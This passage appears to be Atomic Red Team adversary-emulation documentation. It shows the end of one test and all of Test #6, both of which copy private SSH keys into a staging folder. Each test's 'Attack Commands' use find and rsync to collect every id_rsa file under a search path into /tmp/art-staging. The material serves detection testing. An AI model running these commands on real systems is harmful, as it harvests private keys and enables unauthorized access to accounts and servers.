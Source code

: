 **auto_generated_guid:** 864bb0b2-6bb5-489a-b43b-a77b3a16d68a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| search_path | Path where to start searching from. | path | |
| output_folder | Output folder containing copies of SSH private key files | path | /tmp/art-staging|


#### Attack Commands: Run with `sh`! 


```sh
mkdir -p #{output_folder}
find #{search_path} -name id_rsa 2>/dev/null -exec rsync -R {} #{output_folder} \;
exit 0
```

#### Cleanup Commands:
```sh
rm -rf #{output_folder}
```





<br/>
<br/>

## Atomic Test #6 - Copy Private SSH Keys with rsync (freebsd)
Copy private SSH keys on a FreeBSD system to a staging folder using the `rsync` command.

**Supported Platforms:** Linux


**auto_generated_guid:** 922b1080-0b95-42b0-9585-b9a5ea0af044





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| search_path | Path where to start searching from. | path | /|
| output_folder | Output folder containing copies of SSH private key files | path | /tmp/art-staging|


#### Attack Commands: Run with `sh`! 


```sh
mkdir #{output_folder}
find #{search_path} -name id_rsa 2>/dev/null -exec rsync -R {} #{output_folder} \;
```
